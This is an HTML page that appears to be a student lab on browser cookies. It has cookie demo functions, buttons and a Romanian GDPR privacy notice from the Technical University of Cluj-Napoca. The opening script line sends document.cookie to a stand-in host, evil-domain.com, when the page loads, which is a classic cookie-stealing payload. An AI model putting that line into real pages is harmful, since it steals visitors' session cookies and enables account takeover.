 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>

  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/negru_va_denisa_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B2E948193-BC37-4C82-A87C-E6A6A4840894%7D&file=Task2.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1622837745557&ct=1622837745557&wdPreviousSession=e200e115-397c-43f1-b585-e3eb3aa0a9c9&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD&cid=ae19853d-df19-4274-98ca-907ebdf4f284">Click to see DPIA </a>

<p>
  Universitatea Tehnică Cluj-Napoca, cu sediul in Cluj-Napoca, pe Strada Memorandumului 28, 400114, reprezentată legal prin Rector, Prof. univ. dr. ing. Vasile ŢOPA vă prelucrează datele cu caracter personal.
</p>
<p>
În art. 4 pct. 1 din Regulamentul nr. 679/2016 se găsește definiția datelor cu caracter personal care stipulează orice informații privind o persoană fizică identificată sau identificabilă („persoana vizată”); o persoană fizică identificabilă este o persoană care poate fi identificată, direct sau indirect, în special prin referire la un anumit element de identificare, cum ar fi: 
-	nume, prenume;
-	CNP;
-	Adresă;
-	E-mail;
-	IBAN;
-	Adeverință medicală.
</p>
<p>
Vă informăm că datorită temeiului legal aplicabil în România și a relației contractuale în care vă aflați cu Universitatea Tehnică din Cluj-Napoca, aceasta procesează pe perioada relațiilor contractuale următoarele categorii de informații personale care vă aparțin: date de identificare (certificat de naștere, carte de identitate, etc.); date financiare (număr de cont, venituri realizate la nivelul instituției, situații financiare personale, etc.); caracteristici personale (vârsta, locul nașterii, naționalitate, stare civilă, etc.) necesare pentru stabilirea de drepturi cuvenite;  opinii privind starea de sănătate, componența familiei (numărul de copii și date de identificare a acestora, stare civilă, etc. în baza cărora se fac justificările de calcul a unor drepturi cuvenite sau se stabilesc alte drepturi conform legilor și normativelor aplicabile pentru cei care optează sau solicită aceste drepturi); informații privind parcursul academic, calificările deținute, istoricul profesional, calitatea de membru în organizații profesionale, publicații, date de contact necesare pentru derularea curentă a activității educaționale și de cercetare specifice universității.
Menționăm ca reținerea datelor cu caracter personal în instituție are rolul de a putea furniza către titularul datelor, la cerere, informații privind perioada de școlarizare petrecută în cadrul instituției și după finalizarea acestei perioade de instruire și se supune suplimentar temeiului legal aplicabil în România furnizat de OM Nr. 657 / 24.11.2014 privind regimul actelor de studii în sistemul de învățământ superior cu completările ulterioare.
Datele deținute la nivelul sistemelor informatice din Universitatea Tehnică din Cluj-Napoca nu sunt comunicate unor terțe părți decât în cazul în care există solicitări venite conform unui temei legal furnizat de instituții ale statului român sau pentru îndeplinirea obligațiilor contractuale dintre dumneavoastră ca student / cursant și Universitatea Tehnică din Cluj-Napoca ca furnizor de servicii educaționale.
</p>
<p>
Conform Regulamentului UE nr. 679/2016 persoanele vizate beneficiază de următoarele drepturi:
</p>
<p>
•	dreptul de acces cu titlul gratuit la datele personale prelucrate de universitate;
</p>
<p>
•	dreptul la rectificare şi dreptul la ştergerea datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul de restricţionare a prelucrării datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul la portabilitatea datelor;
</p>
<p>
•	dreptul de a retrage oricând consimţământul în cazul în care prelucrarea se bazează pe consimţământ.
</p>
<p>
Perioada de stocare şi prelucrare a datelor cu caracter personal este determinată de prevederile legale în vigoare. La sfârşitul perioadei de stocare şi prelucrare a datelor cu caracter personal, conform raporturilor juridice sau scopurilor precizate în declarațiile de consimțământ completate de persoanele vizate, datele cu caracter personal vor fi şterse din procesele curente şi vor fi arhivate conform legislaţiei naţionale.
</p>
<p>
		    În cazul mobilității la o universitate din UK, instituția de primire trebuie să elibereze studentului foaia matricolă e confirmă parcurgerea programului de studii precum și rezultatele acestuia. Totodată, instituția de trimitere trebuie să acorde recunoaștere academică tuturor activităților finalizate în timpul mobilității conform contractului de studiu, prin acordarea creditelor transferabile sau a unui sistem echivalent.
</p>
<p>
		    Datorită faptului că perioada de mobilitate va fi inclusă și în suplimentul de diplomă, Universitatea Tehnică va avea dreptul să acceseze informațiile despre student din perioada mobilității.   
  
  </p>
  

